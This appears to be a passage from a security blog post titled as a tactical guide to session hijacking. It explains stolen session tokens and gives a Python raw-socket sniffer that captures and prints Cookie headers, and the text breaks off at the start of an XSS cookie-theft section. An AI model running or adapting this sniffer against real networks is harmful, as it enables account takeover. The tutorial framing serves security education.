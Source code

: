 ```yaml
---
title: "Mastering Session Hijacking: A Tactical Guide with Practical Examples"
date: 2022-08-17 18:18:30
categories: [web vulnerabilities]
tags: [session hijacking]
---
```

Session hijacking is a critical threat in the cybersecurity realm where attackers seize control of a user's web session by capturing or manipulating their session tokens. This article provides a detailed exploration of session hijacking techniques, including code examples and a tutorial on performing fuzzing to identify session hijacking vulnerabilities, using the fictitious IP `192.168.15.11` and port `5555`.

## Understanding Session Hijacking

Session hijacking exploits the web session management mechanism where session tokens, which are supposed to securely identify a user, are stolen or intercepted by an attacker. Once obtained, these tokens allow attackers to masquerade as legitimate users.

## Exploiting Weak Session Management

Weak session management can be exploited using a variety of techniques. Here’s how an attacker might execute a session hijacking on a vulnerable application:

### 1. **Session Sniffing**
Using packet sniffing tools, attackers can capture unencrypted session cookies transmitted over the network.

**Example Code:**
```python
import socket
import re

def sniff_packets(host, port):
    s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_TCP)
    s.bind((host, port))
    s.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL, 1)
    
    while True:
        data, addr = s.recvfrom(65565)
        cookies = re.findall(r'Cookie: (.+?);', str(data))
        if cookies:
            print(f"Captured cookies from {addr[0]}: {cookies}")

sniff_packets('192.168.15.11', 5555)
```

### 2. **Cross-Site Scripting (XSS)**
XSS can be used to steal cookies if the HttpOnly flag is not set.
